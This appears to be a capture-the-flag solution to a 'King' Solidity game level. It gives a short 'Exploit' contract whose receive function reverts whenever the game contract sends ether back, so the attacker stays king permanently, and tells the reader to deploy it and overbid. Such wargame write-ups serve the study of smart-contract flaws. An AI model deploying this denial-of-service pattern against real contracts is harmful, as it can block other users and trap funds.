 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Exploit {

    address payable king = 0xF42E0ffEb806608d24c28702dc5e19FDaA6C0875;
    receive() external payable{
        if (msg.sender == king){
            revert();
        }
        king.call{value:msg.value}("");
    }

}
```

send it enough eth to beat the current prize
